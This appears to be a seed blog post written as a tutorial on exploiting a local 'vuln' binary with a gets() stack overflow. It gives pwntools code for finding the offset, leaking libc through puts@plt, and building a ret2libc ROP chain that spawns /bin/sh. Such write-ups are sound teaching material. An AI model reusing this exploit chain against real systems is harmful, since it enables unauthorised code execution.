


This is a seed post. It exists to show what the blog pipeline does with a
code-heavy writeup — delete it once you have something real to publish.

## Finding the bug

The binary is a 64-bit ELF, dynamically linked, no PIE, NX on, no canary:

```
$ checksec --file=./vuln
RELRO      STACK CANARY  NX         PIE
Partial    No canary     NX enabled No PIE
```

`main` allocates a 64-byte buffer and hands it straight to `gets`, which has no
concept of a bound:



That gives an unbounded write onto the stack. With no canary and no PIE, the
saved return address at `rbp+8` is the only thing standing between us and
control of `rip`.

## Confirming control

A cyclic pattern locates the offset:

```python
from pwn import *

io = process('./vuln')
io.sendline(cyclic(200))
io.wait()

core = io.corefile
offset = cyclic_find(core.read(core.rsp, 8))
log.success(f'offset = {offset}')   # 72
```

Seventy-two bytes: sixty-four of buffer, then the eight-byte saved `rbp`.

## Leaking libc

ASLR means we need a runtime address before we can call anything useful. The
binary is not PIE, so the PLT and GOT sit at fixed addresses — call
`puts@plt` with the GOT entry for `puts` as its argument and it prints its own
resolved address.

```python
elf = ELF('./vuln')
rop = ROP(elf)

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
RET     = rop.find_gadget(['ret'])[0]   # keeps the stack 16-byte aligned

payload  = b'A' * 72
payload += p64(POP_RDI)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])     # loop back for a second shot
```

Parse the leak and derive the base:

```python
leak = u64(io.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']
log.success(f'libc base = {libc.address:#x}')
```

The `ret` gadget matters more than it looks. `movaps` inside libc's `system`
faults if `rsp` is not 16-byte aligned at the call, and that failure mode
looks like a mysterious crash deep inside libc rather than a bug in the chain.

## Second stage

With the base known, the second overflow is a plain `system("/bin/sh")`:

```python
payload  = b'A' * 72
payload += p64(RET)
payload += p64(POP_RDI)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(libc.symbols['system'])

io.sendline(payload)
io.interactive()
```



## Notes

| Mitigation | State | Consequence |
| --- | --- | --- |
| Canary | absent | return address is directly writable |
| PIE | absent | PLT/GOT at fixed addresses, so the leak is free |
| NX | enabled | no shellcode on the stack; ROP required |
| RELRO | partial | GOT is writable, an alternative route |

The whole exercise turns on one missing bound check. `gets` was deprecated in
C99 and removed outright in C11, and this is why.
